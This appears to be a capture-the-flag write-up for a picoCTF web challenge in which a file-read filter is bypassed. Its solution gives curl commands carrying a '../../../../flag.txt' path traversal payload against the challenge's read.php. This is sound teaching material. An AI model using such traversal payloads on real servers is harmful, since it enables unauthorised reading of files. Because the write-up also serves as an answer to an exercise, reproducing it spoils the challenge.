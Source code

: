 # [Forbidden Paths [Web Exploitation] [200 Points] #

## Description ##
Can you get the flag?

We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. 

Can you get past the filter to read the flag?

Here's the website.

## Hints ##

## Solution ##

### Step 1: Description ###
![](images/webpage.png)

![](images/webpage_flag.png)


    curl -d 'filename=../../../../flag.txt' http://saturn.picoctf.net:62822/read.php



    curl -d 'filename=../../../../flag.txt' http://saturn.picoctf.net:62822/read.php | grep -oE 'picoCTF{.*}' | tee >(xsel -b)

![](images/webpage_retrieveFlag.png)

